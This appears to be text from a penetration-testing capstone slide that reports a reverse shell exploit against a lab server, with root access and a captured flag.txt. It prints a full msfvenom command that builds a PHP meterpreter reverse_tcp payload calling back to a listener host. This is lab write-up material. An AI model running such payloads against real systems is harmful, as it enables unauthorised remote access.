

# Exploitation: [Reverse Shell Vulnerability]
01

02

03

Tools & Processes
Using msfvenom payload:php/meterpreter/reserve_tcp, the payload was created then uploaded, then executed to the Capstone server.

Achievements
Remote access through backdoor on Capstone server as root.

Finding and accessing flag.txt

Msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=55555 -f raw > shell.php